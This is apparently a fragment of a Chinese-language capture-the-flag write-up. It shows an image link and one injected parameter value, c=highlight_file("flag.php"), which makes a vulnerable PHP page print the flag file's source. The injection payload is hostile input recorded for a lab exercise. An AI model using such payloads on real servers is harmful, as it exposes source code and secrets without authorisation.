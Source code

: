 ![image-20240122121954345](照片/image-20240122121954345.png)

构建命令获取flag

```
c=highlight_file("flag.php");
```

得到flag
